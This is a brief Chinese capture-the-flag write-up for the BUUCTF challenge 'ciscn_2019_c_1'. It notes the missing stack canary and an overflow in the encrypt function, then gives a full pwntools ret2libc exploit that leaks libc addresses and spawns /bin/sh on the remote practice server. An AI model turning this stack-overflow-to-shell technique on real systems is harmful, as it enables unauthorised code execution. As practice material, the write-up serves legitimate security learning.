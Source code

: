 ```yaml
---
title: "ciscn_2019_c_1"
description: ""
date: 2023-04-06T20:58:25+08:00
lastmod: 2023-04-06T20:58:25+08:00
draft: false
images: []
type: docs
weight: 996
toc: true
---
```


## 0x01 分析

![47938fccb953c63b4606c12ae05243b1](images/47938fccb953c63b4606c12ae05243b1.png)  

没有canary保护，got表也可写

![07402b7baa916abebf223be1857d91bf](images/07402b7baa916abebf223be1857d91bf.png)  

encrypt存在一个溢出点

![fb82b8bef697530ae82f109e1bd0f47d](images/fb82b8bef697530ae82f109e1bd0f47d.png)  

结尾处也有一个可以泄露栈的地方，但是泄露的东西都是经过加密的，加密方法也不难，但可以直接调用puts@plt泄露比较方便，然后就是常规的ret2libc

## 0x02 Exploit

```python
from pwn import*
from LibcSearcher import*
# context.log_level = 'debug'
# o = process("./pwn")
o = remote("node4.buuoj.cn", 27675)
elf = ELF("./pwn")
# libc = elf.libc
puts_plt = elf.plt['puts']
gets_got = elf.got['gets']
encrypt = elf.sym['encrypt']
pop_rdi = 0x0000000000400c83

# leak libc
payload = b'aaaaaaa\x00' + b'a'*80
payload += p64(pop_rdi) +p64(gets_got) + p64(puts_plt) + p64(encrypt)
o.sendline(b'1')
o.sendline(payload)
o.recvuntil("lllllll\n")    # aaaaaaa加密后的结果
gets_addr = u64(o.recv(6) + b"\x00\x00")
libc = LibcSearcher("gets", gets_addr)
libc_base = gets_addr - libc.dump("gets")
log.info(hex(libc_base))
sys_addr = libc_base + libc.dump("system")
bin_sh = libc_base + libc.dump("str_bin_sh")

# attack
payload = b'aaaaaaa\x00' + b'a'*80
payload += p64(pop_rdi) + p64(bin_sh) +  p64(0x400B27) + p64(sys_addr)
o.sendline(payload)
o.interactive()

```

![](Files/image 4.png)
